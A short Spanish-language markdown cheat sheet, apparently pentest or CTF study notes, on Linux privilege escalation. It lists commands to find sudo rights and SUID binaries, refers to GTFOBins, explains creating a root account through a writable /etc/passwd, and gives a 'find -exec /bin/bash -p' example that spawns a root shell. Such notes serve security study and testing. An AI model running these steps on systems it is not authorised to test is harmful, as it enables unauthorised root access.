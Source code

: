 # ESCALADA DE PRIVILEGIOS

<br>

## LINUX

> Para hacer escalada de privilegios en linux primero debemos buscar que programas permiten su ejecucion con root para eso ejecutamos:

```sudo -l``` > Opcion 1

```find / -perm -4000 2>/dev/null``` > Opcion 2 para ver ejecutables tiene permisos SUID

Luego de eso podemos usar paginas como [gtfobins](https://gtfobins.github.io/) para ver que comandos podemos ejecutar para escalar Privilegios

> Una opcion comun es cuando podemos editar el archivo ```/etc/passwd``` directamente, entonces podemos
> crear un usuario con permisos de root pero tener en cuenta que se debe generar la contrasena con el comando
> ```openssl passwd -1 -salt <USUARIO> <PASSWORD>```

### Ejemplo
```find . -exec /bin/bash -p \;```
